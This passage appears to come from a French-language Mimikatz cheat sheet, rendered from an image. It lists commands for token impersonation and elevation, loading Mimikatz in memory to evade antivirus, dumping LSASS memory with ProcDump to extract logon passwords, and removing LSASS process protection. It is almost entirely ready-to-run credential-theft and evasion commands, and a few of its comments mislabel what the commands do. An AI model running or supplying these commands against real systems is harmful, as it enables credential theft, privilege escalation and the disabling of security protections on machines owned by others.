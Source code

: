 ### Token manipulation
```cmd
# Énumération tokens
token::list

# Impersonation token
token::impersonate /domainadmin

# Élévation via token
token::elevate
```

### Processus injection
```cmd
# Injection dans processus spécifique
process::suspend /pid:1234
process::resume /pid:1234

# Dump mémoire processus
process::exports /pid:1234
```

## 🎭 Evasion et Contournements

### Bypass antivirus
```cmd
# Chargement en mémoire uniquement
# Utilisation de PowerShell Empire
Invoke-Mimikatz -Command "sekurlsa::logonpasswords"

# Obfuscation
# Compilation custom avec modifications
```

### Techniques stealth
```cmd
# Dump LSASS indirect via ProcDump
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Analyse offline
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Protection bypass
```cmd
# PPL (Protected Process Light) bypass
!+
!processprotect /process:lsass.exe /remove

# Credential Guard bypass
# (Techniques avancées nécessaires)
```
